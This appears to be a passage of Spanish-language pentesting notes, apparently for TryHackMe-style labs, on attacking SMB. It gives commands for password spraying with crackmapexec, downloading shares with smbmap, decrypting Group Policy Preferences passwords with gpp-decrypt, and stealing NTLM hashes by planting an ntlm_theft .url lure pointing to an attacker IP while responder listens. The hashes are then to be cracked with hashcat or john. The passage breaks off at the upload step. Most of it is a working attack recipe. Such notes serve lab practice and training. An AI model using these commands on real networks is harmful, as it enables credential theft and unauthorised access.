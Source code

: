 ```
crackmapexec smb <IP> -u /home/kali/Downloads/thm_usernames.txt -p <contraseña>
```

Para descargar un fichero del recurso compartido y analizarlo en local:

```
smbmap -H <IP> --download <recursoCompartidoFicheroADescargar>
```

A veces, dentro del fichero hay contraseñas, pero están cifradas:

```
Policies/{rec}/_Machine/Preferences/Groups/groups.xml
```

Para descifrarlas:

```
gpp-decrypt "<contraseña>"
```

Si ves que un usuario accede a un recurso compartido SMB (por ejemplo porque ves que van cambiando nombres o van apareciendo ficheros, etc), puedes usar una herramienta para capturar el hash NTLM de una víctima para crackearlo.

En concreto, la herramienta se llama ntlm_theft y genera archivos diseñados para provocar que Windows envíe credenciales automáticamente.

Cuando un usuario abre un archivo .url o .scf o similar que apunte a un recurso ej "\\servidor\recurso" Windows intenta autenticarse automáticamente con NTLM para acceder. Entonces si creas un archivo señuelo que tiene una referencia (creando un .url malicioso), cuando la víctima abre esa carpeta o archivo, su sistema contacta con tu servidor para descargar lo que cree que es legítimo. Al hacerlo, Windows envía automáticamente un challenge/response NTML con  el hash de la cuenta del usuario sin que éste escriba su contraseña.

Entonces si el atacante captura el hash porque está ejecutando algo como responder o impacket-smbserver, puede intentar crackearlo offline con hashcat o john.

Como conclusión, ntlm_theft es una herramienta que genera esos archivos maliciosos que apuntan al servidor malicioso. Luego debes subir el .url malicioso al share (recurso compartido) donde la víctima navega. La víctima abre la carpeta, Windows procesa el .url e intenta acceder. Tu servidor SMB recibe la conexión y captura el hash, para intentar crackearlo.

Herramienta: https://github.com/Greenwolf/ntlm_theft

Atacante crea fichero malicioso:

```
python3 ntlm_theft.py -g url -s <IP-atacante> -f <nombreResultante>
```

-g es el tipo de fichero que se va a generar.

Atacante pone a la escucha:

```
sudo responder -I <interfazRed>
```

Acceder al SMB de la víctima y subir archivo generado:

